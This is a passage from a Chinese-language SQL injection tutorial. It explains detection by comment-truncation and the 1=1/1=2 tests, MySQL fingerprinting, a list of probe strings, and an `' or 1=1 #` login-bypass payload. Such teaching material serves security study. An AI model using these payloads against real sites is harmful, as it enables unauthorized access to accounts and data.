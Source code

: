     `id=1' order by 1%23`

    页面回显的sql语句是

    `SELECT * FROM users WHERE id='1' order by 1#'LIMIT0,1`

    由于`#`后面的语句都会被注释掉，所以真正执行的语句是

    `SELECT * FROM users WHERE id='1' order by 1`

    此处`%23`即为url编码中的`#`，在mysql中`#`的作用是注释符（`--+`；`--` ；`#`；均为注释符号）

2. `1=1`、`1=2`测试法，流程如下（**数字型注入**）
    
    ① `url?id=1`② `url?id=1 ;and 1=1`③ `url?id=1 ;and 1=2`

    存在注入漏洞的表现:

    > 原理是:判断原网址是否对输入信息有过滤

    ① 正常显示；② 正常显示，内容基本与①相同；③ 提示`BOF`或`EOF`（程序没做任何判断时）、或提示找不到记录（判断了rs.eof时）、或显示内容为空（程序加了`on error resume next`）

    不存在的表现：

    ①同样正常显示，②和③一般都会有程序定义的错误提示，或提示类型转换时出错。

    还可以使用特定函数来判断，比如输入`1 and version()>0`，程序返回正常，说明`version()`函数被数据库识别并执行，而`version()`函数是MySQL特有的函数，因此可以推断后台数据库为MySQL。

    **数字型注入常用总结**
    ??? "点击展开/收起"

        and1=2--+

        'and1=2--+
        
        "and1=2--+
        
        )and1=2--+
        
        ')and1=2--+
        
        ")and1=2--+
        
        "))and1=2--+


##### 漏洞利用手法

1.利用 Sql 漏洞绕过登录验证

> 利用注释符#和1=1的恒成立来绕过登陆验证

一般情况下弱类型密码是很难手动爆破的，例如123

但是若存在sql漏洞，在用户名中输入 `123' or 1=1 #`, 密码输入 `123' or 1=1 #`（也可空白），则可以验证成功

实际执行的语句是：

`select * from users where username='123' or 1=1 #' and password='123' or 1=1 #'`

按照 Mysql 语法，# 后面的内容会被忽略，所以实际执行的语句如下

`select * from users where username='123' or 1=1 `
